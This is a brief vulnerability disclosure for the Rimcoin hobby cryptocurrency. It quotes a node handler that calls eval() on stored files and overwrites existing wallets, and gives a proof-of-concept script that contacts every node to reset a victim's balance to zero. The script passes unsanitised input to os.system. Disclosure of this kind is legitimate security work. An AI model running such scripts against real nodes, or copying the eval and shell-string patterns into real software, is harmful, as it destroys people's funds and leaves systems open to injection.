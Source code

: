 # RIM-2018-4192

RIM-2018-4192 is a bug that required some effort, but would erase ANYONE's funds, without their consent in any way.

The bug was in this source:

```python
elif c=="add_rc_wallet":
    BALANCES=open("balance","r").read() # get file
    BALANCES=eval(BALANCES) # evaluate
    BALANCEW=open("balance","w") # open
    BALANCES[args[0]]=0 # add new wallet
    BALANCEW.write(str(BALANCES)) # write
    BALANCEW.close() # close
    IPS=open("ip","r").read() # open id file
    IPS=eval(IPS) # evaluate
    IPS[args[0]]=ip
    IP=open('ip','w')
    IP.write(str(IPS))
    IP.close()
```

The bug is that it doesn't check if the wallet already exists. 

So here is what a sample PoC would look like:

```python
import subprocess,sys,os

contact_node="67.241.245.218:8080"
nodes=eval(subprocess.check_output("curl "+contact_node+"/rq_node"))

for j in nodes:
    print("New target node is "+j)
    os.system("curl "+j+"/add_node_wallet*"+sys.argv[1])
print("Contacting OG node - "+contact_node)
os.system("curl "+contact_node+"/add_node_wallet*"+sys.argv[1])

print("""FUND OVERRIDING DUE TO NODE CONTACT BUG (RIM-2018-4192)

- BY IHATERA1N, 2018. 
THE RIMCOIN WALLET ADDRESS """+sys.argv[1]+""" HAS BEEN EMPTIED. 

¯\_(ツ)_/¯""")
```

Of course, we have already patched this bug on our main node. 

Note:
Bug discovered and PoC written, and write-up created by iHateRa1n; the creator of Rimcoin! 
He was payed 75 RC for this discovery. 
